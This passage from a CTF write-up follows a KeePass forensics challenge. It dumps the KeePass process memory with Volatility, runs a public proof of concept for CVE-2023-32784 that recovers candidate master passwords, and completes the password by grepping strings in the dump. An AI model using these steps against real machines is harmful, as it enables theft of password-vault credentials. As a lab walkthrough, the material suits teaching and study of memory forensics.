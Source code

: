 ```
>
> Antoine

```

So we have an e-mail that talks about the keepass file we were given at the beginning. In addition, there's a pdf file in base64 that's obviously encrypted with open ssl with aes cbc 256 and 2048 iterations and a password. Finally, one of the people mentioned a CVE in an e-mail (a new lead?).




## 4. CVE-2023-32784

As seen above, we're told about a CVE. After a few Google searches (keepass + memory dump) we come across this CVE : [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/cve-2023-32784). 

We make a memory dump of the keepass process:

```
kali@kali ~/D/T/keepass-chall> python3 vol.py -f ../keepass-chall/adupont.dmp windows.memmap.Memmap ‑dump ‑pid 6008
```

[POC - CVE-2023-32784](https://github.com/dawnl3ss/CVE-2023-32784)

```
	
kali@kali ~/D/T/keepass-chall> sudo python3 keepass-dump-masterkey/poc.py -d pid.2896.dmp 
2024-04-06 12:50:52,120 [.] [main] Opened pid.2896.dmp 
Possible password: ●ysuper_s4F3pwd78224DB 
Possible password: ●ysuper_s4F3pwd78224DC 
Possible password: ●%super_s4F3pwd78224DB 
Possible password: ●%super_s4F3pwd78224DC 
Possible password: ●'super_s4F3pwd78224DB 
Possible password: ●'super_s4F3pwd78224DC
```

This password is not complete thanks to the POC, but it is possible to obtain it in full by greping the strings in the memory dump:

```
kali@kali ~/D/T/keepass-chall> strings adupont.dmp > adupont 
kali@kali ~/D/T/keepass-chall> strings adupont | grep mysuper
<ConsoleApplication2.pdbdownload/football.txtmysuperstackoverflow156.245.19.127
mysuperdupersecretkeyTrojan:Win64/Zenpack.EM!MTB
mysuper*s4F3pwd78224DB
kali@kali ~/D/T/keepass-chall> 

```

## 5. Deciphering

Now we have the password (which we assume to be the password for the pdf), as well as the pdf that was in the e-mail. 
